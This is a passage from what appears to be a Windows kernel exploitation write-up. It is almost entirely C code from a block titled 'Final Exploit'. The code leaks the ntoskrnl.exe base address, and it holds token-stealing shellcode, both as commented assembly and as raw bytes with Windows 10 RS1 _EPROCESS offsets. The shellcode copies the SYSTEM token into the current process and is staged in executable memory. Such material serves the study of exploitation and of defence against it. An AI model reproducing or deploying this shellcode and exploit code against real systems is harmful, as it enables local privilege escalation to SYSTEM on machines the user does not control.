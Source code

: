 ```C title="Final Exploit"
    printf("[+] Obtaining Driver Base Address!\n");
    BOOL DriversBase = EnumDeviceDrivers(lpImageBase, sizeof(lpImageBase), &lpcbNeeded);
    if (!DriversBase)
    {
        printf("[!] FATAL: Error enumerating device drivers!\n");
        exit(1);
    }

    /* Get name of first driver (ntoskrnl.exe) */
    char BaseName[1024] = {0};
    BOOL DriversBaseName = GetDeviceDriverBaseNameA(lpImageBase[0], BaseName, sizeof(BaseName));
    if (!DriversBaseName)
    {
        printf("[!] FATAL: Error getting drivers base name!\n");
        exit(1);
    }

    /* 
     * ntoskrnl.exe is the first module in lpImageBase.
     * typecast LPVOID -> unsigned long long
    */
    unsigned long long KernelBase = (unsigned long long)lpImageBase[0];

    printf("[*] Driver base name is: %s\n", BaseName);
    printf("[*] %s is located at: 0x%p\n", BaseName, KernelBase);

    return KernelBase;

}

unsigned long long CreateShellcode(void)
{
    /*
		_start:
			mov rax, [gs:0x188]		    ; Current thread (_KTHREAD)
			mov rax, [rax + 0xb8]		; Current process (_EPROCESS)
			mov rbx, rax			    ; Copy current process (_EPROCESS) to rbx
		__loop:
			mov rbx, [rbx + 0x2f0] 		; ActiveProcessLinks
			sub rbx, 0x2f0		   	    ; Go back to current process (_EPROCESS)
			mov rcx, [rbx + 0x2e8] 		; UniqueProcessId (PID)
			cmp rcx, 4 			        ; Compare PID to SYSTEM PID 
			jnz __loop			        ; Loop until SYSTEM PID is found
			mov rcx, [rbx + 0x358]		; SYSTEM token is @ offset _EPROCESS + 0x358
			and cl, 0xf0			    ; Clear out _EX_FAST_REF RefCnt
			mov [rax + 0x358], rcx		; Copy SYSTEM token to current process
			add rsp, 0x40			    ; Restore execution
			ret	
	*/
	
	// Windows 10 RS1 offsets in _EPROCESS structure
	char payload[] = "\x65\x48\x8B\x04\x25\x88\x01\x00\x00\x48\x8B\x80"
			         "\xB8\x00\x00\x00\x48\x89\xC3\x48\x8B\x9B\xF0"
			         "\x02\x00\x00\x48\x81\xEB\xF0\x02\x00\x00\x48"
			         "\x8B\x8B\xE8\x02\x00\x00\x48\x83\xF9\x04"
			         "\x75\xE5\x48\x8B\x8B\x58\x03\x00\x00\x80"
			         "\xE1\xF0\x48\x89\x88\x58\x03\x00\x00\x48"
			         "\x83\xC4\x40\xC3";

    /* Allocate shellcode in user mode */
    LPVOID shellcode = VirtualAlloc(NULL, sizeof(payload), 0x3000, 0x40);
    if (!shellcode)
    {
```

[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.